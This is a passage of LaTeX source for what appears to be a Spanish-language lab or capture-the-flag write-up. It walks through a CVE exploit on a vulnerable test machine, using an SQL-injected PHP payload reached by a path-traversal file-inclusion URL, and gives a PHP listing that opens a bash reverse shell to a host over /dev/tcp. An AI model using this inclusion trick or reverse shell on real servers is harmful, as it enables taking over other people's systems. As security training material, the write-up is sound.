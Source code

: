 Básicamente, lo que explica la entrada de la exploit-db para este CVE es que se puede jecutar una petición a la base de datos que permite cargar un fragmento de código, este caso, con el script para el shell reverso, y obtener un token para ejecutarlo. 

Lo que hay que hacer es crear una consulta SQL con el código PHP que se desea ejecutar y entonces ir al siguiente enlace: \url{HTTP://datasafe.votenow.local/index.php?target=db_sql.php\%253f/../../../../../../../../var/lib/php/session/sess_<id_de_de_sesion>}. \textbf{Nota: el enlace disponible en la web de exploitdb está mal, tiene escrito \textit{sessions} en lugar de \textit{session} y da un error si se utiliza tal cual}.

En la figura \ref{arbitrarycode} se ve un ejemplo de como ejecutar un comando para obtener información de la versión de PHP del sistema. En la figura \ref{reverse}, se muestra un ejemplo de la ejecución de un \gls{reverse_shell} utilizando un código extraido de una web de preparación para la OSCP en la que se comparten algunas ideas para crear reverse shells con una sola línea de código. \footnote{\url{HTTPs://oscp.infosecsanyam.in/shells/linux-reverse-shell-one-liner}}

\begin{lstlisting}[language=php,caption={Reverse shell script}, label=rshelll]
<?php 
system("bash -i >& /dev/tcp/192.168.122.96/666 0>&1; 
exit;
?>
\end{lstlisting}

\begin{figure}[!hbt]
  \centering
  \includegraphics[width=\textwidth]{imagenes/arbitrarycode.png}
  \caption{Captura de pantalla en la que se aprecia el resultado obtenido de seguir las instrucciones descritas en exploitdb. Básicamente he ejecutado un comando de prueba (phpinfo()) en el servidor y al acceder a la URL descrita en el exploit con el token adecuado he obtenido el output de dicho comando. A continuación, reemplazando ese `código arbitrario' por otro en el que obliguemos al servidor PHP a crear una shell reversa, podremos tomar el control de la máquina.}
   \label{arbitrarycode}
\end{figure}



